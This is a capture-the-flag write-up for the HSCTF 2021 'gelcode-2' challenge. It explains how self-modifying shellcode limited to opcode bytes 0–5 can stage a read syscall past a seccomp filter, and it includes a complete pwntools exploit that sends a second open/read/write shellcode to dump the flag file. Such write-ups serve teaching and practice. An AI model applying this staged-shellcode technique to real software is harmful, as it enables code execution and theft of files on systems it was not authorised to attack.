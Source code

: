 I did the gelcode challenge in HSCTF 2021 in solo, but did not finish it before CTF's end... 

this one was based on first gelcode, but even more restricted, you can only use opcodes values from 0 to 5..

there was also a seccomp in place

[![https://imgur.com/6hYpm4F.png](https://imgur.com/6hYpm4F.png)](https://imgur.com/6hYpm4F.png)

which only allows open, read, write syscalls

as often for this kind challenge, the solution, is escape as soon as you can from this hell..

with a read syscall, to read a unrestricted shellcode..

for this we need at minimum, to have:
* eax = 0
* rsi pointing to a RWX buffer
* rdi = 0
* and rdx containing an enough big value (at least as big as our shellcode, but can be bigger)

to complicate things, all the registers are set to 0x1337133713371337 before calling our shellcode, even rsp,

so we can not use stack.

the solution, in our case is self modifying code,

we are going to generate the opcodes we need, to bypass the restrictions in place.

we will use mainly:

```add eax,dword value   # opcode 05 val val val val```

to modify eax, (as we are in 64bit , the upper 32bits of rax will be cleared by using 32 bit arithmetic instructions)

```add al,byte value   # opcode 04 val```

to modify al only

```add dword[rip+0],eax   # opcode 01 05 00 00 00 00```

to modify next instruction (rip+0) by adding eax to values in place, with this one we can create instructions with any opcodes we want

```add byte[rip+0],al   # opcode 00 05 00 00 00 00```

to modify next instruction (rip+0) by adding al to value in place, with this one also we can create instructions with any opcodes we want

that's all we need !!!

first we create an opcode lea rsi,[rip] to make rsi points to ourself

then mov edx, 0x400

mov edi,0

then xor eax,eax / syscall to call the read syscall reading data on ourselves,

and replace the actual restricted shellcode by a second one, unrestricted,

where we can do an open/read/write shellcode to dump the flag...

I got first blood on this one (yes a bit proud :) )

with our team "Sentry Up Before You Nops Nops" --> french super team...cream of the cream...


```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF('./gelcode-2')
host, port = "mc.ax", "31034"

# from a src eax, calculate increment of each byte to read dest eax, and emit correct opcodes for it
def equalize(src, dst):
  ret = ''
  ov0 = 0
  ov1 = 0
  ov2 = 0
  d0 = dst & 0xff
  d1 = (dst>>8)&0xff
  d2 = (dst>>16)&0xff
  d3 = (dst>>24)&0xff
  s0 = src & 0xff
  s1 = (src>>8)&0xff
  s2 = (src>>16)&0xff
  s3 = (src>>24)&0xff
  if (d0<s0):
    d0 += 0x100
    ov0 = 1
    s1 += 1
  if (d1<s1):
    d1 += 0x100
    ov1 = 1
    s2 += 1
  if (d2<s2):
    d2 += 0x100
    ov2 = 1
    s3 += 1
  if (d3<s3):
    d3 += 0x100

  while True:
    if ((s0 == d0) and (s1 == d1) and (s2 == d2) and (s3 == d3)):
      break
    if ((d0 - s0) > 5):
      o0 = 5
    else:
      o0 = d0 - s0
    if ((d1 - s1) > 5):
      o1 = 5
    else:
      o1 = d1 - s1
    if ((d2 - s2) > 5):
      o2 = 5
    else:
      o2 = d2 - s2
    if ((d3 - s3) > 5):
      o3 = 5
    else:
      o3 = d3 - s3
    s0 += o0
    s1 += o1
    s2 += o2
    s3 += o3
    ret += 'add eax,0x0'+str(o3)+'0'+str(o2)+'0'+str(o1)+'0'+str(o0)+'\n'
  return ret

# create lea rsi,[rip] opcode
sc = equalize(0x13371337,0x3088438b)
sc += 'add [rip+0],eax\n'
sc += '.byte 5,5,5,5,0,0,0,0\n'
sc += 'add al,5\n'*8
sc += 'add al,2\n'
#create mov edx, 0x400    opcode
sc += 'add [rip+0x0],al\n'
sc += '.byte 5,0,4,0,0\n'
sc += 'add al,5\n'
# create mov edi,0   opcode
sc += 'add [rip+0],al\n'
sc += '.byte 5,0,0,0,0\n'
# create xor eax,eax / syscall opcodes
sc += equalize(0x308843ba, 0xabb2c)
sc += 'add [rip+0],eax\n'
sc += '.byte 5,5,5,5\n'

shellcode = asm(sc)
print('shellcode length: '+str(len(shellcode)))

length = len(shellcode)


p = remote(host,port)
p.recvuntil('is ', drop=True)
length = 362

payload = bytearray(shellcode.ljust(length,b'\x00'))

# second shellcode, read from the first one,  simple open('flag.txt') , read(), write it to stdout   (if program does not ouput to stdout try other fds 0,1,2,3,4,5,etc..)
shellcode2 = asm('''
  mov rdi,rsi
  mov rbp,rdi
  mov rsi,0
  mov rdx,0
  mov eax,2
  syscall
  mov rdi,rax
  mov rsi,rbp
  mov rdx,0x200
  mov eax,0
  syscall
next:
  mov rdx,rax
  mov rdi,1
  mov rsi,rbp
  mov eax,1
  syscall

  mov eax,60
  syscall
''')

p.sendafter('input:\n', payload)

# the flag filename is here,  normally it's in current directory on remote machine
payload = b'flag.txt\x00'
payload = payload.ljust(0x150,b'\x90')
payload += shellcode2

p.send(payload)

p.interactive()

```

